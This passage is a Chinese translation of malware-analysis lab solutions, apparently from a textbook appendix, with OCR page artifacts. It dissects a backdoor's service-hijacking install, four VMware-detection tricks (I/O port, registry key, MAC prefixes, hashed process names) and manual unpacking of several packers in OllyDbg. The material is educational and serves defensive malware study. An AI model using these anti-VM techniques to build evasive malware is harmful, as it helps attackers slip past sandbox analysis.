检查 sub_1000D920，我们看到它接受一个可选参数（默认为 Irmon）。此函数在指定 Svchost Netsvcs 组中的服务名称时在 0x1000DBC4 处创建一个服务，或者如果不指定服务名称则创建 Irmon 服务。该服务设置为空白描述和显示名称为 *X* 系统服务，其中 *X* 是服务名称。创建服务后，InstallSA 将 *ServiceDLL* 路径设置为 Windows 系统目录中的此恶意软件。我们通过执行动态分析和使用 *rundll32.exe* 来调用 InstallSA 函数来确认这一点。我们使用 Regedit 来查看注册表中的 Irmon 服务，并看到图 17-2L 中所示的变化。

*图 17-2L：Irmon 的 ServiceDLL 注册表覆盖* 由于 InstallSA 方法没有将恶意软件复制到 Windows 系统目录，因此这种安装方法无法安装恶意软件。

最后，我们关注 InstallSB 导出，它与 InstallSA 和 InstallRT 具有相同的高级结构。这三个导出在执行反虚拟机检查之前都会检查 DVM 静态配置选项。InstallSB 调用 sub_1000DF22 以实现其主要功能，并包含一个额外的对 sub_10005A0A 的调用。

函数 sub_10005A0A 使用在实验室 12-4 中讨论的方法禁用 Windows 文件保护。

sub_1000DF22 函数似乎包含了 InstallSA 和 InstallRT 的功能。InstallSB 还接受一个可选参数，包含一个服务名称（默认为 NtmsSvc），恶意软件使用它来覆盖本地系统上的服务。在默认情况下，如果 NtmsSvc 服务正在运行，恶意软件会停止该服务并用自身的*ntmssvc.dll*覆盖 Windows 系统目录中的*ntmssvc.dll*。然后恶意软件尝试再次启动服务。如果恶意软件无法启动服务，它将执行 DLL 注入，就像在 0x1000E571 处的调用所看到的那样。（这与 InstallRT 的工作方式类似，但 InstallSB 注入到*svchost.exe*。）InstallSB 还保存了旧服务的**1 7**

二进制格式，以便 UninstallSB 在必要时可以恢复它。

我们将把对这种恶意软件的完整分析留给你，因为我们的重点是反虚拟机技术。这种恶意软件是一个功能丰富的后门，包括键盘记录、捕获音频和视频、传输文件、充当代理、检索系统信息、使用反向命令 shell、注入 DLL 以及下载和执行命令。

要完全分析这种恶意软件，在专注于后门网络通信能力之前，分析其导出函数和静态配置选项。看看您是否能编写一个脚本来解码由这种恶意软件生成的网络流量。

实验室解答

**677**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 17-3 解答**

***简短答案***

1.

与 Lab 12-2 不同，这种恶意软件在虚拟机内部立即终止，而不是在*svchost.exe*上执行进程替换。

2.

如果您强制 0x4019A1、0x4019C0 和 0x401467 处的跳转被执行，而 0x401A2F 处的跳转不被执行，恶意软件将使用其资源部分中的键盘记录器执行进程替换。

3.

恶意软件使用了四种不同的反虚拟机技术：



它使用后门 I/O 通信端口。



它在注册表键 SYSTEM\CurrentControlSet\Control\ DeviceClasses 中搜索字符串 vmware。



它检查 MAC 地址以查看它是否是 VMware 使用的默认地址。



它使用字符串哈希函数搜索以 vmware 开头的进程列表。

4.

为了避免这种恶意软件使用的反虚拟机技术，您可以移除 VMware 工具并修改 MAC 地址。

5.

在 OllyDbg 中，您可以应用以下补丁：



将 0x40145D 处的指令 NOP 掉。



将 0x40199F 和 0x4019BE 处的指令修改为 xor eax, eax。



将 0x40169F 处的指令修改为 jmp 0x40184A。

***详细分析***

如实验室描述中所述，这种恶意软件与*Lab12-02.exe*相同，除了它包含了反虚拟机技术。因此，一个好的开始是回顾 Lab 12-2。

**搜索易受攻击的指令**

我们首先将二进制文件加载到 IDA Pro 中，并使用 *findAntiVM.py*（如实验室 17-1 中所示）搜索易受攻击的 x86 指令。此脚本在 0x401AC8 处识别了一个反虚拟机指令，并用红色突出显示。我们注意到这是通过 in 指令查询的后门 I/O 通信端口。此反虚拟机技术包含在 IDA Pro 命名的函数 sub_401A80 中。如果该函数在虚拟机内部执行，则返回 1；否则返回 0。从主函数的开始只有一个交叉引用，如图 17-10L 中的  所示。

0040199A call sub_401A80  ; 查询 I/O 通信端口 0040199F test eax, eax 

004019A1 jz short loc_4019AA 

004019A3 xor eax, eax

004019A5 jmp loc_401A71

*列表 17-10L：调用查询 I/O 通信端口后的检查* **678**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



在  处必须执行 jz 指令，否则主方法将立即通过跳转到 0x401A71 终止。当执行到达 jz 指令时，我们通过将零标志设置为 1 来禁用此反虚拟机技术。要永久禁用此技术，将  处的测试指令更改为 xor eax, eax，如下所示：

1\.

启动 OllyDbg 并将光标置于 0x40199F 行。

2\.

按下空格键并在文本框中输入 **xor eax, eax**。

3\.

点击 **汇编**。

**使用字符串查找反虚拟机技术**

接下来，我们使用 Strings 将实验室 12-2 的输出与 *Lab17-03.exe* 的输出进行比较。以下是此实验室中找到的新字符串：vmware

SYSTEM\CurrentControlSet\Control\DeviceClasses

Iphlpapi.dll

GetAdaptersInfo

这些字符串为我们提供了有趣的线索。例如，字符串 SYSTEM\CurrentControlSet\Control\DeviceClasses 看起来是一个注册表路径，而 GetAdaptersInfo 是一个用于获取网络适配器信息的函数。通过 IDA Pro 深入研究列表中的第一个字符串 vmware，我们发现只有一个从子例程 sub_4011C0 到此字符串的交叉引用。

图 17-3L 显示了 sub_4011C0 的交叉引用图。离开 sub_4011C0 的箭头表明它调用了一些注册表函数。该函数还通过回环的箭头调用自身（使其成为递归函数）。根据图示，我们怀疑该函数正在递归检查注册表中的字符串 vmware。最后，图 17-3L 显示 sub_4011C0 是从主函数中调用的。

**1 7**

*图 17-3L：sub_4011C0 的交叉引用图*

列表 17-11L 显示了 sub_4011C0 在主函数内部  处的调用位置。在调用之前，将三个参数压入堆栈，包括我们在字符串列表中看到的注册表键。

实验室解决方案

**679**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004019AA push 2 ; int 004019AC push offset SubKey ; "SYSTEM\\CurrentControlSet\\Control\\Device"...

004019B1 push 80000002h ; hKey

004019B6 call sub_4011C0 

004019BB add esp, 0Ch

004019BE test eax, eax 

004019C0 jz short loc_4019C9 

*清单 17-11L：sub_4011C0 的参数和之后的检查* 由于 SYSTEM\CurrentControlSet\Control\DeviceClasses 被传递给递归注册表函数，我们可以假设这个函数是从该路径开始递归检查注册表的。这是一个系统残留检查，如第十七章所述。如果你进一步检查 sub_4011C0，你会看到它遍历 DeviceClasses 下的注册表子键。它将每个子键名称的前六个字符（在转换为小写后）与字符串 vmware 进行比较。

由于我们的目标是让恶意软件在我们的安全环境中运行，我们只需确保在到达 jz 指令时零标志被设置；否则，程序将立即终止。我们通过确保在到达 jz 指令时零标志为 1 来禁用这种反虚拟机技术。我们可以通过使用 OllyDbg 将  处的 test 指令更改为 xor eax, eax 来永久禁用此检查，正如在第 670 页上“搜索易受攻击的指令”中所述。

接下来，我们使用 IDA Pro 检查字符串 GetAdaptersInfo 的交叉引用。在清单 17-12L 中，我们看到字符串在  处被引用。

004019C9 push offset aGetadaptersinf ; "GetAdaptersInfo" 

004019CE push offset LibFileName ; "Iphlpapi.dll"

004019D3 call ds:LoadLibraryA

004019D9 push eax ; hModule 004019DA call ds:GetProcAddress

004019E0 mov GetAdaptersInfo_Address , eax

*清单 17-12L：GetAdaptersInfo 的动态解析* 恶意软件使用 LoadLibraryA 和 GetProcAddress 动态解析 GetAdaptersInfo，并将结果地址加载到全局变量中，我们将该变量重命名为 GetAdaptersInfo_Address 以便更容易识别对 GetAdaptersInfo 运行时加载地址的函数调用。

检查 GetAdaptersInfo_Address 的交叉引用，我们看到它在函数 sub_401670 的两个地方被调用。从高层次来看，这个函数看起来与我们在 Lab 12-2 中检查的包含键盘记录器的资源部分加载的函数类似。然而，这个实验室中的函数似乎在开头添加了一大堆代码。让我们检查一下这段代码。

清单 17-13L 显示了一系列字节移动的起始点 。通过双击 var_38，可以将这个字节数组初始化转换为字节数组。

并将其设置为大小为 27 的数组。我们将该数组重命名为 Byte_Array 以便我们在后续分析中更容易识别。

**680**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004016A8 mov [ebp+var_38], 0 

004016AC mov [ebp+var_37], 50h

004016B0 mov [ebp+var_36], 56h

004016B4 mov [ebp+var_35], 0

004016B8 mov [ebp+var_34], 0Ch

004016BC mov [ebp+var_33], 29h

...

0040170C mov [ebp+var_1F], 0

00401710 mov [ebp+var_1E], 27h

00401714 mov [ebp+dwBytes], 0

0040171B lea eax, [ebp+dwBytes]

0040171E push eax

0040171F push 0

00401721 call GetAdaptersInfo_Address 

*列表 17-13L：字节数组初始化和第一次调用 GetAdaptersInfo_Address* 列表 17-13L 中在处对 GetAdaptersInfo_Address 的调用接受两个参数：一个 IP_ADAPTER_INFO 结构的链表及其大小。在这里，传入的链表是 NULL，大小将在 dwBytes 中返回。将第一个参数设置为 NULL 来调用 GetAdaptersInfo_Address 是一种简单的方法，可以找出它返回多少数据，以便为第二次调用 GetAdaptersInfo_Address 中使用的链表结构分配内存。这就是恶意软件在后续调用 GetProcessHeap 和 HeapAlloc 时使用 dwBytes 的原因。

列表 17-14L 显示恶意软件在处使用 HeapAlloc，并在处第二次调用 GetAdaptersInfo_Address。

0040174B call ds:HeapAlloc 

00401751 mov [ebp+lpMem], eax 

00401754 cmp [ebp+lpMem]，0

...

00401766 lea edx, [ebp+dwBytes]

00401769 push edx

0040176A mov eax, [ebp+lpMem]

0040176D push eax

0040176E call GetAdaptersInfo_Address 

*列表 17-14L：第二次调用 GetAdaptersInfo_Address，填充结果* **1 7**

IDA Pro 标记为 lpMem 的参数是 HeapAlloc 的返回值，如处所示。此参数传递给处的第二次 GetAdaptersInfo_Address 调用，而不是 NULL。在调用 GetAdaptersInfo_Address 之后，lpMem 参数是指向 IP_ADAPTER_INFO 结构链表的指针，大小为 dwBytes。

我们必须在 IDA Pro 中添加 IP_ADAPTER_INFO 结构，因为它未能完全识别和标记这些内容。要做到这一点，请在结构窗口中按 INSERT 键，并添加标准结构 IP_ADAPTER_INFO。现在将结构应用于我们的反汇编数据，如表 17-1L 中的所示，

，和 。

实验室解决方案

**681**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**表 17-1L：应用结构信息和标准常量之前和之后** **之前**

**之后**

mov edx, [ebp+lpMem]

mov edx, [ebp+lpMem]

cmp dword ptr [edx+1A0h]，6

cmp [edx+**IP_ADAPTER_INFO.Type**]，MIB_IF_TYPE_ETHERNET

jz short loc_4017B9

jz short loc_4017B9

mov eax, [ebp+lpMem]

mov eax, [ebp+lpMem]

cmp dword ptr [eax+1A0h]，71h

cmp [eax+**IP_ADAPTER_INFO.Type**]，IF_TYPE_IEEE80211

jnz short loc_401816

jnz short loc_401816

mov ecx, [ebp+lpMem]

mov ecx, [ebp+lpMem]

cmp dword ptr [ecx+190h]，2

cmp [ecx+**IP_ADAPTER_INFO.AddressLength**]，2

jbe short loc_401816

jbe short loc_401816

表 17-1L 的左侧显示了在将 IP_ADAPTER_INFO 结构偏移和标准常量应用于数据之前，代码列表的情况。要应用结构，右键单击位置、和，您将获得将数字转换为表右侧以粗体显示的描述性字符串的选项。以 IP_ADAPTER_INFO 的 MSDN 页面为参考，我们了解了类型的标准常量，并看到 0x6 和 0x71 对应于以太网或 802.11 无线适配器类型（因此地址将是 MAC 地址）。

在表 17-1L 中显示的三个比较中，恶意软件正在检查以太网或无线接口，并确认适配器地址长度大于 2。如果此检查失败，恶意软件将循环到链表中的下一个适配器。如果检查成功，将执行列出 17-15L 中的代码。

004017CC jmp short loc_4017D7

004017CE mov edx, [ebp+var_3C]

004017D1 add edx, 3 

004017D4 mov [ebp+var_3C], edx

...

004017DD mov ecx, 3 

004017E2 mov eax, [ebp+var_3C]

004017E5 lea edi, [ebp+eax+Byte_Array] 

004017E9 mov esi, [ebp+lpMem]

004017EC add esi, 194h 

004017F2 xor edx, edx

004017F4 repe cmpsb

004017F6 jnz short loc_401814

*列出 17-15L：比较适配器地址与 Byte_Array* 为了使此代码更易读，右键单击处的 194h 并将其更改为 IP_ADAPTER_INFO.Address。

代码正在比较当前引用的 IP_ADAPTER_INFO 的地址与 Byte_Array 中的索引。Byte_Array 使用 EAX 索引，EAX 被填充为 var_3C，这是一个我们在处看到的递增 3 的循环计数器。repe cmpsb 指令比较 Byte_Array 和 IP_ADAPTER_INFO.Address 的 3 个字节（因为 ECX 在处被设置为 3），这意味着它正在检查 MAC 地址的前 3 个字节是否为 {00h,50h,56h} 或 {00h,0Ch,29h} 等等。**682**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在 Internet 上搜索“00,0C,29”告诉我们，这是 VMware 默认 MAC 地址的常见起始地址。由于数组大小为 27，我们知道此代码比较了九个不同的 MAC 地址（大多数与 VMware 相关）。

我们通过完全避免 MAC 地址比较来永久禁用此检查。使用 OllyDbg 的汇编功能将 0x40169F 处的 jnz 指令修改为 jmp 0x40184A，就像我们之前强制恶意软件跳过适配器检查并直接转到资源部分操作代码一样。

**审查最终检查**

此恶意软件中的最后一个反 VM 检查在 sub_401400 中，它执行进程替换。列出 17-16L 中的代码显示了处的调用，该调用确定是否将执行处的 jz。如果跳转未执行，则代码将终止而不会执行进程替换。

00401448 xor eax, eax 

...

00401456 push 6

00401458 push 0F30D12A5h

0040145D call sub_401130 

00401462 add esp, 8

00401465 test eax, eax

00401467 jz short loc_401470 

*列出 17-16L：最终反 VM 检查*

如列出 17-16L 所示，反 VM 函数 sub_401130 接受两个参数：6 和整数 0xF30D12A5。此函数通过调用 CreateToolhelp32Snapshot、Process32First 和 Process32Next 遍历进程列表。Process32Next 在列出 17-17L 中的代码所示的循环中。

0040116D mov edx, [ebp+arg_4]

00401170 push edx

00401171 lea eax, [ebp+pe.szExeFile]

00401177 push eax

00401178 call sub_401060  ; 转换为小写

0040117D add esp, 4

**1 7**

00401180 push eax

00401181 call sub_401000  ; 获取字符串哈希 00401186 add esp, 8

00401189 mov [ebp+var_130], eax

0040118F mov ecx, [ebp+var_130]

00401195 cmp ecx, [ebp+arg_0] 

*列表 17-17L：比较进程名称字符串的代码* 在  处调用的函数 sub_401060 接收一个包含进程名称的单个参数，并将参数的所有字符设置为小写。在  处调用的函数 sub_401000 接收两个参数：6 (arg_4) 和从 sub_401060 返回的小写字符串。此函数的结果是实验室解答。

**683**

[www.it-ebooks.info](http://www.it-ebooks.info/)

与  中的 0xF30D12A5 (arg_0) 进行比较。如果结果等于 0xF30D12A5，函数将返回 1，这将导致恶意软件终止。换句话说，sub_401000 正在将进程名称转换为数字，然后检查该数字是否等于预设值。sub_401000 是一个简单的字符串哈希函数。给定参数 "vmware"，它返回 0xF30D12A5。恶意软件巧妙地使用字符串哈希来避免在比较中使用字符串 vmware，这会使恶意软件分析员容易识别。

要永久禁用此最后的反 VM 检查，我们可以在 0x40145D 处将 sub_401130 的调用 NOP-out。这迫使恶意软件跳过检查并直接进入进程替换代码，因为列表 17-16L 中的 xor 在  确保了 EAX 寄存器将为 0。

**摘要**

此恶意软件对 VMware 执行了四种不同的检查。其中三种检查系统残留物，另一种查询 I/O 通信端口。系统残留物检查技术包括以下内容：



检查 MAC 地址的前 3 个字节，以查找与虚拟机相关的已知值。



在注册表中检查 SYSTEM\ CurrentControlSet\Control\DeviceClasses 路径下的 vmware 键。



检查进程列表，查找以字符串 vmware 开头的进程，无论大小写如何的组合。

**Lab 18-1 解答**

*Lab18-01.exe* 是用稍作修改的 UPX 版本打包的 Lab 14-1，UPX 是在野外遇到的最流行的打包器之一。对 UPX 的修改使其对签名检测更具抵抗力。当你对打包的可执行文件运行 PEiD 时，它不会检测到打包器。然而，文件中名为 UPX2 的部分应该让你怀疑正在使用类似 UPX 的打包器。由于对打包器所做的修改，运行 UPX –d 在打包文件上失败。

我们首先尝试手动解包程序，通过在 OllyDbg 中加载程序来找到 OEP。首先，我们简单地向下滚动代码以查看尾部跳转是否明显。如列表 18-1L 所示，它是明显的。

00409F32 CALL EBP

00409F34 POP EAX

00409F35 POPAD

00409F36 LEA EAX,DWORD PTR SS:[ESP-80]

00409F3A PUSH 0

00409F3C CMP ESP,EAX

00409F3E JNZ SHORT Lab14-1.00409F3A

00409F40 SUB ESP,-80

00409F43 JMP Lab14-1.0040154F

00409F48 DB 00

**684**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00409F49 DB 00

00409F4A DB 00

00409F4B DB 00

00409F4C DB 00

00409F4D DB 00

00409F4E DB 00

*列表 18-1L：修改后的 UPX 打包程序的尾部跳转* 尾部跳转后面跟着一系列 0x00 字节。它跳转到一个非常远的地址。我们在尾部跳转处设置了一个断点，并继续执行我们的程序。一旦断点被触发，我们就对 jmp 指令进行单步执行，以到达 OEP。

接下来，我们使用**插件****OllyDump****转储** **调试过程**将进程转储到磁盘。接受所有默认选项，点击**转储**，然后选择转储进程的文件名。

我们已经将解包程序转储到磁盘上，并且完成了。现在我们可以查看程序导入和字符串，并且可以轻松地使用 IDA Pro 分析它。快速分析显示这是与实验 14-1 相同的代码。

**Lab 18-2 解答**

首先，我们在 *Lab18-02.exe* 文件上运行 PEiD，并了解到打包程序是 FSG 1.0 -> dulek/xt。为了手动解包此程序，我们首先将其加载到 OllyDbg 中。几个警告指出文件可能已打包。由于我们已经知道了这一点，所以我们只是点击通过警告。

当我们加载程序时，它从入口点 0x00405000 开始。最简单的方法是尝试 OllyDump 插件中的“通过段跳转查找 OEP”选项。我们选择**插件****OllyDump****通过段跳转查找 OEP (跟踪** **覆盖**)，这将在 0x00401090 处停止程序。这很鼓舞人心，因为 0x00401090 非常接近可执行文件的开始。（PE 文件内的第一组可执行指令通常位于 0x00401000，这仅比那多 0x90，这表明查找 OEP 插件工具已经工作。）在 OllyDump 插件标识的指令处，我们看到列表 18-2L 中的代码。

00401090 DB 55 ; CHAR 'U'

00401091 DB 8B

00401092 DB EC

00401093 DB 6A ; CHAR 'j'

**1 8**

00401094 DB FF

00401095 DB 68 ; CHAR 'h'

*列表 18-2L：未经过 OllyDbg 分析的 OEP 代码* 根据您的版本，OllyDbg 可能没有反汇编此代码，因为它没有意识到它是代码。当处理打包程序时，这种情况是相当常见且不可预测的，并且可能是代码是原始代码的一部分而不是解包占位符的迹象。

实验解答

**685**

[www.it-ebooks.info](http://www.it-ebooks.info/)

要强制 OllyDbg 反汇编代码，右键单击第一个字节并选择**分析****分析** **代码**。这会显示程序开头的代码，如列表 18-3L 所示。

00401090 PUSH EBP ; msvcrt.77C10000

00401091 MOV EBP,ESP

00401093 PUSH -1

00401095 PUSH Lab07-02.00402078

0040109A PUSH Lab07-02.004011D0

*列表 18-3L：经过 OllyDbg 分析后的 OEP 代码* 列表 18-3L 的前两条指令看起来像是函数的开始，这进一步使我们确信我们已经找到了 OEP。向下滚动一点，我们还可以看到字符串 www.practicalmalwareanalysis.com，这进一步证明这是原始程序的一部分，而不是解包的占位符。

接下来，我们使用 **插件****OllyDump****转储** **调试进程**将进程转储到磁盘。保留所有默认选项，点击 **转储**，并为转储的进程选择一个文件名。

现在，我们已经完成。我们可以查看程序导入和字符串，并使用 IDA Pro 轻松分析它。快速分析显示，这与 *Lab07-02.exe* 的代码相同。

**Lab 18-3 解决方案**

首先，我们在 *Lab18-03.exe* 文件上运行 PEiD，它告诉我们打包器是 PECompact 1.68 - 1.84 -> Jeremy Collake。我们将程序加载到 OllyDbg 中，并看到几个警告，表明文件可能被打包。我们可以忽略这些警告。

程序从地址 0x00405130 开始。我们在 OllyDump 插件中尝试了 **通过段跳转（Trace Into）查找 OEP** 选项。我们看到清单 18-4L 中显示的代码，这是 OllyDump 对 OEP 的猜测。然而，有几个原因表明这看起来不像 OEP。最明显的是它访问了基指针之上的值。如果这是文件的入口点，基指针之上的任何数据都没有被初始化。

0040A110 ENTER 0,0

0040A114 PUSH EBP

0040A115 MOV ESI,DWORD PTR SS:[EBP+8]

0040A118 MOV EDI,DWORD PTR SS:[EBP+C]

0040A11B CLD

0040A11C MOV DL,80

0040A11E MOV AL,BYTE PTR DS:[ESI]

0040A120 INC ESI

0040A121 MOV BYTE PTR DS:[EDI],AL

*清单 18-4L：使用“通过段跳转（Trace Into）查找 OEP”选项后 OllyDump 对 OEP 的猜测*

**686**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们尝试 **通过段跳转（Trace Over）查找 OEP** 选项，我们看到代码在 ntdll 函数的末尾的 ret 指令处停止，这显然不是 OEP。

由于 OllyDump 插件不起作用，我们检查代码以查看尾部跳转是否容易发现。如清单 18-5L 所示，我们最终到达一些看起来像尾部跳转的代码。这段代码是一个 retn 指令，后面跟着一些零字节。我们知道代码不能超过这个点。

00405622 SCAS DWORD PTR ES:[EDI]

00405623 ADD BH,CH

00405625 STC

00405626 RETN 0EC3F

00405629 ADD BYTE PTR DS:[EAX],AL

0040562B ADD BYTE PTR DS:[EAX],AL

0040562D ADD BYTE PTR DS:[EAX],AL

*清单 18-5L：一个可能的尾部跳转*

现在，我们在 retn 指令上设置一个断点并启动我们的程序。首先，我们设置一个常规断点（INT 3）。OllyDbg 显示一个警告，因为断点位于代码段之外，可能会引起问题。

当我们运行程序时，我们最终会得到一个程序无法处理的异常，我们看到断点处的代码已经改变。

现在我们知道代码是自修改的，并且我们的断点没有正确工作。

在处理自修改代码时，通常使用硬件断点而不是软件断点很有用，因为自修改代码将覆盖实现软件断点使用的 INT 3 (0xcc)指令。重新使用硬件断点开始运行程序，我们看到它开始运行而从未触碰到我们的断点。这告诉我们我们可能还没有找到尾部跳转，我们需要尝试另一种策略。

查看打包程序的入口点，我们看到图 18-6L 中显示的指令。

00405130 JMP SHORT Lab09-02.00405138

00405132 PUSH 1577

00405137 RETN

00405138 PUSHFD

00405139 PUSHAD

**1 8**

0040513A CALL Lab09-02.00405141

0040513F XOR EAX,EAX

*图 18-6L：在栈上设置硬件断点以帮助找到 OEP*

在处的第一条指令是一个无条件跳转，跳过了下两条指令。影响内存的前两条指令是 pushfd 在。

and pushad at . 这些指令保存了所有寄存器和标志。很可能打包程序会在跳转到 OEP 之前立即恢复所有寄存器和标志，因此我们可以尝试通过设置断点来找到 OEP。

**687**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在栈上设置访问断点。据推测，在尾部跳转之前将有一个 popad 或 popfd 指令，这将引导我们到 OEP。

我们重新启动程序并跳过前三个指令。程序应该在图 18-6L 中的处的调用指令处停止。现在我们需要找到栈指针的值来设置断点。为此，我们需要检查寄存器窗口，如图 18-1L 右上角所示。

*图 18-1L：在栈上设置硬件断点以帮助找到 OEP*

栈的地址是 0x12FFA0，如图 18-1L 中的所示。要设置断点，我们首先通过右键单击并选择**在转储中跟踪**来将该地址加载到内存转储中。这将使内存转储窗口看起来像图 18-1L 中的样子。

要在最后压入栈的数据上设置断点，我们右键单击图 18-1L 中的栈上的第一个数据元素在处，并选择**断点****访问内存**。然后我们运行我们的程序。不幸的是，它达到了一个未处理的异常，类似于我们在之前设置断点时的情况。

下一步，我们使用**断点****硬件，访问****Dword**来设置断点。

当我们启动程序时，我们的断点被触发。程序将在图 18-7L 中显示的指令处中断。

0040754F POPFD

00407550 PUSH EAX

00407551 PUSH Lab18-03.00401577

00407556 RETN 4

*列表 18-7L：触发我们的堆栈断点的指令，显示尾部跳转* 在我们的代码中，我们看到一个 retn 指令，它将执行权转移到另一个位置。这可能是尾部跳转。我们转到该指令以确定它去哪里，并查看列表 18-8L 中的代码。这看起来像是原始代码；处的 GetVersion 调用是一个明显的线索。

**688**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**注意**

*与 Lab18-02.exe 类似*，您可能需要使用*分析* *分析代码命令*强制 OllyDbg 反汇编此代码。

00401577 PUSH EBP

00401578 MOV EBP,ESP

0040157A PUSH -1

0040157C PUSH Lab18-03.004040C0

00401581 PUSH Lab18-03.0040203C ; SE 处理器安装 00401586 MOV EAX,DWORD PTR FS:[0]

0040158C PUSH EAX

0040158D MOV DWORD PTR FS:[0],ESP

00401594 SUB ESP,10

00401597 PUSH EBX

00401598 PUSH ESI

00401599 PUSH EDI

0040159A MOV DWORD PTR SS:[EBP-18],ESP

0040159D CALL DWORD PTR DS:[404030] ; kernel32.GetVersion *列表 18-8L: Lab 18-3 的 OEP*

现在，随着 EIP 指向处的第一条指令，我们选择**插件**

**OllyDump****转储调试进程**。我们点击**将 EIP 作为 OEP**按钮，保留所有其他选项的默认设置，然后点击**转储**。

在对话框中，我们输入一个文件名以保存解包程序的副本。

当我们完成时，我们运行程序并在 IDA Pro 中打开它以验证它是否已成功解包。对程序的简要分析显示，其功能与*Lab09-02.exe*相同。

这个打包程序使用各种技术使其难以解包和识别尾部跳转。由于打包程序采取了明确的步骤来阻止这些常用策略，其中一些策略无效。如果在使用打包程序时某个特定技术似乎很难，请尝试不同的方法，直到找到一个有效的方法。在罕见的情况下，可能没有任何技术能够轻松工作。

**Lab 18-4 解决方案**

我们在 PEiD 中打开*Lab18-04.exe*文件，并了解到它使用 ASPack 2.12 -> Alexey Solodovnikov 打包。然后我们在 OllyDbg 中打开恶意软件，看到第一条指令是 pushad，它将寄存器保存到堆栈上。根据第十八章的内容，我们知道在堆栈上设置断点以搜索相应的 popad 指令可能是一种有效的策略，特别是对于这个**1 8**

打包程序。我们跳过 pushad 指令，如图 18-9L 中的所示。

00411001 PUSHAD

00411002 CALL Lab18-04.0041100A

00411007 JMP 459E14F7

*列表 18-9L：解包 stub 的开始*

我们将使用之前实验中使用的相同技术。

一旦我们跳过 pushad 指令，我们的窗口看起来就像图 18-2L。

实验解决方案

**689**

[www.it-ebooks.info](http://www.it-ebooks.info/)

*图 18-2L：为* Lab18-04.exe 设置堆栈断点* 我们在处右键单击 esp，并选择**在转储中跟踪**以显示内存窗口，如图 18-2L 所示。然后我们点击堆栈顶部，并选择**断点****硬件，在访问****DWORD**来设置堆栈指令的断点。

我们按 F9 键再次启动程序。程序最终触发了我们的断点，我们看到列表 18-10L 所示的代码。

004113AF POPAD

004113B0 JNZ SHORT Lab18-04.004113BA

004113B2 MOV EAX,1

004113B7 RETN 0C

004113BA PUSH Lab18-04.00403896

004113BF RETN

*列表 18-10L：触发我们的堆栈断点后的指令* 我们在处看到一个 jnz 指令，紧随`popad`指令之后。我们知道`popad`应该紧接着尾跳，将执行权转移到 OEP。我们跳过 jnz 指令，看到它跳转了几条指令。在那里我们看到一个`push`后跟一个`retn`，这会将执行权转移到堆栈上推入的地址，可能是我们的尾跳。

当我们跳过`retn`指令时，我们看到我们的指令指针已经转移到程序的另一个区域。与之前的实验一样，OllyDbg 可能没有反汇编这段代码，如列表 18-11L 所示。

00403896 DB 55 ; 字符 'U'

00403897 DB 8B

00403898 DB EC

**690**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00403899 DB 6A ; 字符 'j'

0040389A DB FF

0040389B DB 68 ; 字符 'h'

0040389C DB 88

0040389D DB B1

0040389E DB 40 ; 字符 '@'

0040389F DB 00

*列表 18-11L：在 OllyDbg 分析之前的代码 OEP* 我们知道这是代码，因此我们通过右键单击第一个字节并选择**分析****分析代码**来告诉 OllyDbg 反汇编它。现在我们看到看起来像是合法代码，带有明显的 GetModuleHandleA 函数，如列表 18-12L 所示。这证实了我们的怀疑，即这是 OEP。

00403896 PUSH EBP

00403897 MOV EBP,ESP

00403899 PUSH -1

0040389B PUSH Lab18-04.0040B188

004038A0 PUSH Lab18-04.004064AC ; SE 处理程序安装 004038A5 MOV EAX,DWORD PTR FS:[0]

004038AB PUSH EAX

004038AC MOV DWORD PTR FS:[0],ESP

004038B3 SUB ESP,10

004038B6 PUSH EBX

004038B7 PUSH ESI

004038B8 PUSH EDI

004038B9 MOV DWORD PTR SS:[EBP-18],ESP

004038BC CALL DWORD PTR DS:[40B0B8] ; kernel32.GetVersion *列表 18-12L：OllyDbg 分析后的代码 OEP* 接下来，我们选择**插件****OllyDump****转储调试进程**。我们点击**获取 EIP 作为 OEP**按钮，接受默认设置，并点击**转储**。在对话框中，我们输入一个文件名以保存解包程序的副本。

将程序导出后，运行它以验证其是否正常工作。

然后在 IDA Pro 中打开它，以验证它是否已解包并且具有与*Lab09-01.exe*相同的函数。

**实验 18-5 解答**

**1 8**

*Lab18-05.exe*文件中的程序是用 WinUpack 打包的*Lab07-01.exe*。

当我们将这个文件加载到 PEiD 中时，它被识别为使用 WinUpack 0.39 打包。然而，文件的 PE 头损坏严重。如果我们将其加载到 OllyDbg、IDA Pro 或 PEview 中，我们会得到几个错误，使得无法从 PE 头中查看信息。

我们将文件加载到 OllyDbg 中，看到一个错误信息“32 位可执行文件格式错误或未知。”OllyDbg 可以加载文件，但它找不到解包占位符的入口点，而是在系统断点处中断，这个断点发生在解包占位符之前很久。

实验室解决方案

**691**

[www.it-ebooks.info](http://www.it-ebooks.info/)

因为我们甚至还没有达到解包占位符，我们的大部分技术将不会起作用。我们可以小心翼翼地单步进入和单步跳过指令，直到我们达到解包占位符，然后从那里开始工作，但这将是一个漫长且令人沮丧的过程。相反，我们将设置 LoadLibrary 和 GetProcAddress 的断点，以绕过解包占位符的开始部分。

我们知道，加载导入的库和通过 GetProcAddress 解析导入是解包占位符执行的最后几个步骤之一。

如果我们能在 GetProcAddress 的最后一次调用上设置一个断点，我们就会非常接近尾部跳转，但直到调用执行完毕，我们无法知道哪个 GetProcAddress 调用是最后的。相反，我们在 LoadLibrary 和 GetProcAddress 上设置断点，并通过试错法来确定哪个调用是最后的。

我们首先通过按 CTRL-G 并输入**LoadLibraryA**到对话框中来在 LoadLibrary 的第一条指令上设置断点。这应该带我们到 LoadLibraryA 的第一条指令，在那里我们按 F2 来设置断点。然后我们重复这个过程，用 LoadLibraryW 来设置断点，这样我们就有两个 LoadLibrary 版本的断点，然后按 F9 来启动程序。

